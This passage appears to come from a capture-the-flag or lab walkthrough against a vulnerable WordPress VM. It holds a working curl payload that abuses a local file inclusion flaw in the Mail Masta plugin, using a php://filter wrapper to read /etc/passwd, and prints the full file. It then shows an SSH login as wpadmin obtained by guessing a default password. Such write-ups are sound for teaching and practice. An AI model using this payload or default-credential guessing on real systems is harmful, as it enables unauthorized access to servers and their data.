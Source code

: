 
```
# curl -s --url http://192.168.1.25/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/read=convert.base64-encode/resource=/etc/passwd | base64 -d
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:103:107::/var/run/dbus:/bin/false
colord:x:104:109:colord colour management daemon,,,:/var/lib/colord:/bin/false
whoopsie:x:105:112::/nonexistent:/bin/false
avahi:x:106:115:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
bind:x:107:117::/var/cache/bind:/bin/false
postfix:x:108:118::/var/spool/postfix:/bin/false
dovecot:x:109:120:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:110:65534:Dovecot login user,,,:/nonexistent:/bin/false
landscape:x:111:121::/var/lib/landscape:/bin/false
libvirt-qemu:x:112:106:Libvirt Qemu,,,:/var/lib/libvirt:/bin/false
libvirt-dnsmasq:x:113:123:Libvirt Dnsmasq,,,:/var/lib/libvirt/dnsmasq:/bin/false
sshd:x:114:65534::/var/run/sshd:/usr/sbin/nologin
postgres:x:115:124:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
tomcat6:x:116:126::/usr/share/tomcat6:/bin/false
wpadmin:x:1001:1001::/home/wpadmin:/bin/sh
```

Since we are running SSH and we had an easy default with the WordPress admin account, what if ```wpadmin``` is another default?

```
# ssh wpadmin@192.168.1.25
The authenticity of host '192.168.1.25 (192.168.1.25)' can't be established.
ECDSA key fingerprint is SHA256:+ODdJgfptUyyVzKI9wDm804SlXxzmb4/BiKsHCnHGeg.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.1.25' (ECDSA) to the list of known hosts.
wpadmin@192.168.1.25's password: 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic-pae i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Wed Jul 12 15:42:45 EDT 2017

  System load:  0.0               Processes:             101
  Usage of /:   30.5% of 7.21GB   Users logged in:       0
  Memory usage: 32%               IP address for eth0:   192.168.1.25
  Swap usage:   11%               IP address for virbr0: 192.168.122.1

  Graph this data and manage this system at https://landscape.canonical.com/

```